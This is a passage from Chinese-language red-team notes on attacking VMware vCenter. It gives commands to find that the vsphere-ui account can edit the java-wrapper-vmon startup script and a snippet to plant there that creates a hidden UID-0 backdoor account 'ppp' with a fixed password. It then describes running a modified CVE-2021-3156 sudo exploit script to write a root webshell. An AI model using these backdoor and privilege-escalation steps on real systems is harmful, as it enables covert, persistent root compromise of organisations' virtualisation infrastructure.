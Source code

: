 ```
ls -alh /usr/lib/vmware-vmon/java-wrapper-vmon
```

![image-20230613140844499](attachments/image-20230613140844499.png)

cis 用户组可以修改该文件，在 `/etc/group` 下查看 cis 用户组中的相关用户，存在 vsphere-ui ，可修改 java-wrapper-vmon 文件添加后门

```
cat /etc/group | grep cis
```

![image-20230613140957580](attachments/image-20230613140957580.png)

添加

```
if [ ! -e /tmp/passwd.bak ]; then
 useradd -d /root -u 0 -o -g root -G root ppp
 echo ppp:passXX*1*11|chpasswd
fi
```

重启服务以创建用户

```
service-control --start --all
```

## CVE-2021-3156 提权写webshell

目标为 photon os，直接写入root权限的webshell [wbs.py](https://github.com/Whoopsunix/whoopsunix.github.io/blob/main/docs/readTeam/vcenter/wbs.py ':ignore') ，脚本依据 [exploit_userspec.py](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_userspec.py) 修改得到

上传脚本到服务器运行，python wbs.py

![image-20230614101402712](attachments/image-20230614101402712.png)

